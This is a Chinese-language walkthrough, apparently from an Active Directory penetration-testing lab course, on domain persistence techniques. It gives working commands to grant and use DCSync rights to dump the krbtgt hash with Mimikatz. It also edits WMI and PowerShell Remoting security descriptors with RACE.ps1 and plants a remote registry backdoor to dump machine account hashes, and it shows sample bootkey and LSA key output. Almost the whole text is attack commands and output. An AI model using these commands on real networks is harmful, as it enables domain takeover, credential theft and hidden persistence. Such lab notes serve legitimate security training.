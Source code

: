 ```
现在回到学生机shell，再次查看本账号是否有Dcsync权限

```
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.IdentityReference -match "student366") -and (($_.ObjectType -match'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
```

如果已经出现```ActiveDirectoryRights : GenericAll```表示成功赋权

执行Dcsync,导出krbtgt哈希（也可以是其他用户）
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

# Security Descriptors（安全描述符）

在DA权限shell引入RACE.ps1框架
```
PS C:\ad> . .\RACE.ps1
```

为WMI修改安全描述符，允许student366进入WMI
```
Set-RemoteWMI -SamAccountName student366 -ComputerName dcorp-dc.dollarcorp.moneycorp.local -namespace 'root\cimv2' -Verbose
```

查看
```
gwmi -class win32_operatingsystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

### 没有登录凭证，修改安全描述符，使得学生机可以在DC上执行命令

引入RACE.ps1，域名写全
```
PS C:\ad> . .\RACE.ps1
PS C:\ad> Set-RemotePSRemoting -SamAccountName student366 -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose
```

执行whoami命令
```
Invoke-Command -ScriptBlock{whoami} -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

### 无管理员密码的情况下从目标机器上dump出哈希

在DC上修改权限，允许本账号（student366）远程dump出哈希，在DAshell
```
Add-RemoteRegBackdoor -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Trustee student366 -Verbose
```

在学生shell
引入框架
```
PS C:\ad> . .\RACE.ps1
```

dump出dcorp-dc这台机器的哈希
```
PS C:\ad> Get-RemoteMachineAccountHash -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose
VERBOSE: Bootkey/SysKey : 85462B93FC25EE67BB07AD899096199B
VERBOSE: LSA Key        : FD3251451B1293B9ED7AF4BED8E19A678F514B9BC2B42B796E2C72AF156945E9
